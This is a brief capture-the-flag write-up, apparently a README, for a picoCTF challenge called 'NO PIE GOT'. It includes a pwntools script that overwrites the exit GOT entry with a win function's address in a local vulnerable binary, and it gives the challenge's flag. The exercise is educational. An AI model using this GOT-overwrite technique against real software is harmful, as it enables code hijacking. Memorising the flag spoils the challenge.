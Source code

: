 # NO PIE GOT
### 📄 Description
Ff you mess some bytes around, you might print the flag (●'◡'●).

### ⚙ How to run it
```bash
./vuln
```

### ⛔ Rules
Don't open the `flag.txt` file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
The solution is the same as the previous challenge (no joke).

```python
from pwn import *

context.binary = "./vuln"
p = process()

p.sendline(str(context.binary.got["exit"]).encode("ascii"))
p.sendline(str(context.binary.functions["win"].address).encode("ascii"))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
picoCTF{A_s0ng_0f_1C3_and_f1r3_e122890e}
```
</details>